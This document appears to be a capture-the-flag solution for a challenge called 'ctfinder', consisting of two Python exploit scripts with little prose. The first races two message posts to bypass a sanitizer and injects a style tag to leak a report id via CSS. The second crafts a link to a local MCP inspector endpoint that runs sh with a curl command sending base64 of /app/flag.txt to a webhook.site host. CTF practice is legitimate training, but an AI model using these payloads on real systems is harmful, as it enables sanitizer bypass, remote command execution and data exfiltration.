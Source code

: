 ```python:s0.py
import grequests
import requests
import time
import random

url = 'http://127.0.0.1:1337'
url = 'https://ctfinder-3d264a71099b40be.instancer.idek.team'
username = 'a'

sess = requests.Session()

sess.post(url + '/auth/register', json={'username': username, 'password': 'a'})
sess.post(url + '/auth/login', json={'username': username, 'password': 'a'})

resp = sess.post(url + '/tokens', json={'token': random.randbytes(10).hex()})
print(resp.text)

resp = sess.post(url + '/sessions/')
print(resp.text)
sid = resp.json()['session_id']

# race condition to bypass sanitizer

# exfiltrate report id with css
payload = '<div class="message user"><div class="prose"><style>'

auth_sess = sess.cookies.get('session')
reqs = []
reqs.append(grequests.post(url + f'/sessions/{sid}/messages', json={'content': 'A' * 128}, headers={'Cookie': 'session=' + auth_sess}))
reqs.append(grequests.post(url + f'/sessions/{sid}/messages', json={'content': 'A' * 128 + payload}, headers={'Cookie': 'session=' + auth_sess}))

resps = grequests.map(reqs)
for resp in resps:
    print(resp.text)

print(sid)
```

```python:s1.py
import grequests
import requests
from urllib.parse import quote

url = 'http://127.0.0.1:1337'
url = 'https://ctfinder-3d264a71099b40be.instancer.idek.team'
username = 'z'
sid = 'edc5a1e1-9463-4444-a138-a53c98cba650'
report_id = 'fe0a001'

sess = requests.Session()

sess.post(url + '/auth/login', json={'username': username, 'password': 'a'})

args = '-c "curl https://webhook.site/2c7d64f3-cd0a-42a5-8b32-b95e3f6b19aa?f=`cat /app/flag.txt | base64 -w 0`"'
args = quote(args)
print(args)

payload = f'<a id="checkReportBtn-{report_id}" href="http://0.0.0.0:6277/sse?transportType=stdio&command=sh&args={args}" />'

auth_sess = sess.cookies.get('session')
```